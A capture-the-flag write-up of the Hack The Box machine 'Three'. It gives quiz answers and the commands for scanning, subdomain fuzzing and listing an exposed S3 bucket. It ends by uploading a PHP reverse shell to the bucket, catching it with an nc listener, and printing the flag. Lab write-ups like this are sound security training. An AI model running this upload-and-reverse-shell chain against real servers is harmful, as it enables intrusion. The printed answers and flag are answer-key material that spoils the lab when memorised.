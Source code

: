 ```yaml
---
layout: post
title: "[HTB - Starting Point] Three"
date: 2022-10-18 09:00:00 +0800
categories: HTB
tags: [HTB, Starting Point]
---
```


## Task 1  
Q : How many TCP ports are open?  
``` text
[host] # nmap -sVC -p- --open <target_ip> -oA Three_full_scan
```
A : 2  

## Task 2  
Q : What is the domain of the email address provided in the "Contact" section of the website?  
A : thetoppers.htb  

## Task 3  
Q : In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?  
A : /etc/hosts  

## Task 4  
Q : Which sub-domain is discovered during further enumeration?  
``` text
[host] # echo "<target_ip>  thetoppers.htb" >> /etc/hosts
[host] # tgt_size=$(curl -s http://thetoppers.htb | wc -c)
[host] # ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb -H "Host: FUZZ.thetoppers.htb" -fs $tgt_size -mc all
```
A : s3.thetoppers.htb  

## Task 5  
Q : Which service is running on the discovered sub-domain?  
A : amazon s3  

## Task 6  
Q : Which command line utility can be used to interact with the service running on the discovered sub-domain?  
A : awscli  

## Task 7  
Q : Which command is used to set up the AWS CLI installation?  
A : aws configure  

## Task 8  
Q : What is the command used by the above utility to list all of the S3 buckets?  
A : aws s3 ls  

## Task 9  
Q : This server is configured to run files written in what web scripting language?  
``` text
[host] # aws --endpoint-url=http://s3.thetoppers.htb s3 ls
[host] # aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
A : php  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
get a php-reverse-shell script.
[host] # aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb
[host] # nc -nvlp <listen_port_in_php_reverse_shell>
browse http://<target_ip>/php-reverse-shell.php
(reverse-shell) $ find / -name flag.txt 2>/dev/null
(reverse-shell) $ cat /var/www/flag.txt
```
A : a980d99281a28d638ac68b9bf9453c2b  
